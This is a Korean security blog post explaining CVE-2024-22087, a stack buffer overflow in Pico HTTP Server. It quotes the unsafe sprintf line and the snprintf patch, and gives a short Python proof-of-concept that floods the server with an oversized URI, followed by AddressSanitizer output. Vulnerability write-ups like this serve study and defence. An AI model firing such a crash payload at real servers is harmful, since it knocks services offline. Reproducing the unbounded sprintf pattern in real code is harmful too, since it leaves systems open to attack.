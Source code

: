 ```yaml
---
title: "[하루한줄] CVE-2024-22087 : Pico HTTP Server의 Stack Buffer Overflow 취약점"
author: ogu123
tags: [BOF, Pico HTTP Server, ogu123]
categories: [1day1line]
date: 2024-02-19 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Remote buffer overflow in main.c](https://github.com/foxweb/pico/issues/31)

## Target

- Pico HTTP Server < 7a5e4e2 이전 커밋

## Explain

Unix 환경에서 웹 서비스를 호스팅 할 수 있는 Pico HTTP Server에서 Stack Buffer Overflow 취약점이 발생했습니다.

IoT 기기나 임베디드 시스템에 경우 메모리 보호 기법이 부족하거나 전혀 없는 경우가 많아, Pico HTTP Server를 사용하는 경우 원격 코드 실행으로 이어질 수 있습니다.


```
GET(uri) {
  char file_name[255];
  sprintf(file_name, "%s%s", PUBLIC_DIR, uri);
```
취약점은 `main.c` 파일의 81번 줄 `sprintf` 함수에서 발생했습니다.

`sprintf` 함수는 PUBLIC_DIR과 uri 문자열을 결합하여 file_name 배열에 저장합니다. 이때, file_name 배열 크기보다 큰 uri를 보낼 경우 Stack Buffer Overflow가 트리거됩니다.

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8000))
sock.send(b"GET /" + b"C" * 2000000 + b"HTTP/1.1\r\nHost: localhost:8000\r\n\r\n")
response = sock.recv(4096)
sock.close()
```
위 PoC는 서버로 file_name 배열의 크기보다 큰 uri를 보내는 코드입니다.

이를 실행시켜 취약점을 트리거 해보고 Address Sanitizer로 확인해 보겠습니다.

```
==960119==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7f214c10015f at pc 0x7f214e09215c bp 0x7ffe88c08220 sp 0x7ffe88c079e0
WRITE of size 65487 at 0x7f214c10015f thread T0
    #0 0x7f214e09215b in __interceptor_vsprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765
    #1 0x7f214e09233e in __interceptor_sprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1808
    #2 0x556476f2cd71 in route /home/kali/projects/fuzzing/pico/main.c:81
    ...
```
PoC 실행 결과, `0x7f214c10015f` 주소에서 65,487 byte를 WRITE 수행 중 Stack Buffer Overflow가 발생했습니다.

발생 위치는 main.c의 81번 줄로 uri가 `sprintf` 함수를 통해 file_name 배열에서 overflow가 일어났다는 것을 알 수 있습니다.


![](cve-2024-22087/image1.png)

해당 취약점은 저장될 문자열의 최대 길이를 지정할 수 있는 `snprintf` 함수를 사용하는 것으로 [패치](https://github.com/foxweb/pico/commit/e2d172fc2c1384589038fb89dff4d6b65a13bb90)되었습니다.

